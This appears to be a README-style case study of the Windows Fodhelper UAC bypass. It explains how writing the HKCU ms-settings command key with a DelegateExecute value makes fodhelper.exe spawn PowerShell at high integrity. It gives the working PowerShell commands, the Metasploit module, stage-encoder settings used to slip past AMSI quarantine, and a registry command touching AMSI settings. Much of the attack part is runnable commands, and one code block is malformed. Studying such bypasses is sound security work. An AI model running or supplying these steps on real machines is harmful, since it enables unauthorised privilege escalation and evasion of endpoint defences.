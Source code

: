## What's FodHelper?
The Fodhelper binary runs as _high integrity_, and as we will demonstrate, it is vulnerable to exploitation due to the way it interacts with the Windows Registry. More specifically, it interacts with the current user's registry, which we are allowed to modify.

This case study leverages a [UAC](https://docs.microsoft.com/en-us/windows/security/identity-protection/user-account-control/how-user-account-control-works) bypass that abuses the Fodhelper.exe application. This particular UAC bypass still works on the most recent Windows version at the time of this writing and does not rely on writing a file to disk.

## Theory
As reported in the original blog post, Fodhelper tries to locate the following registry key:
```PATH
HKCU:\Software\Classes\ms-settings\shell\open\command
```

If we create the registry key and add the _DelegateExecute_ value, Fodhelper will search for the default value _(Default)_ and use the content of the value to create a new process.
If our exploit creates the registry path and sets the _(Default)_ value to an executable (like powershell.exe), it will be spawned as a high integrity process when Fodhelper is started.

## Manual Bypass
We can use powershell to create the needed registry keys with associated values required to launch PowerShell.

The first command creates the registry path through the New-Item cmdlet and the -Path option. Additionally, it sets the value of the default key to "powershell.exe" through the -Value option while the -Force flag suppresses any warnings.

In the second command, the _DelegateExecute_ value is created through the similar New-ItemProperty cmdlet, again using the -Path option along with the -Name option to specify the value and the -PropertyType option to specify the type of value, in this case a String.\

Finally, fodhelper will be executed.

The 3 commands will be as follows:
```Powershell
New-Item -Path HKCU:\Software\Classes\ms-settings\shell\open\command -Value powershell.exe –Force

New-ItemProperty -Path HKCU:\Software\Classes\ms-settings\shell\open\command -Name DelegateExecute -PropertyType String -Force
```Powershell
C:\Windows\System32\fodhelper.exe
```

## Automated Bypass
We can also use the metasploit module to bypass uac using fodhelper:
exploit/windows/local/bypassuac_fodhelper

Our exploit does not work- as Windows AMSI qurantines the threat, however, by using an encoder with the following commands:
1. set EnableStageEncoding true
2. set StageEncoder x64/xor_dynamic

We can encode our payload to bypass UAC.

Running the exploit gives us an elevated shell.

__RESET ASMI__
```Cmd
reg add "HKCU\Software\Microsoft\Windows Script\Settings" /t REG_DWORD /v AmsiEnable /d 1 /f
```